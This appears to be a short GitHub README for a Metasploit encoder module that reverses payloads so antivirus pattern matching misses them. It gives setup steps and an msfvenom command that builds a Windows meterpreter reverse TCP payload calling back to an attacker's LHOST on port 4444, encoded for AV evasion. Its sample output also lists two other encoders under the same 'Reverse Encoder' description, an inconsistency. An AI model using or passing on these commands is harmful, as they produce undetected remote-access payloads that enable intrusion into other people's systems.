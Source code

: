 # Metasploit_ReverseEncoder
Generic Metasploit Encoder that simply reverses the payload to avoid AV RegEx Pattern Matching 

## Setup
Place the *.rb file inside "/usr/share/metasploit-framework/modules/encoders/generic" folder.

## Sample Usage

Try this to verify that Metasploit finds the encoder:
	msfvenom --list encoders

The resulting output should contain the following line

	generic/reverse              normal     Reverse Encoder
	generic/shuffle              normal     Reverse Encoder
	generic/naturalword          normal     Reverse Encoder


Now encode your payload with -e generic/reverse, eg;

	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=wlan0 LPORT=4444 -e generic/reverse -f raw -o payload.raw

## Limitations:

This encoder only works with Framework Transform Formats (see msfvenom --list formats) and you need to provide your own decoder as part of the payload executable creation
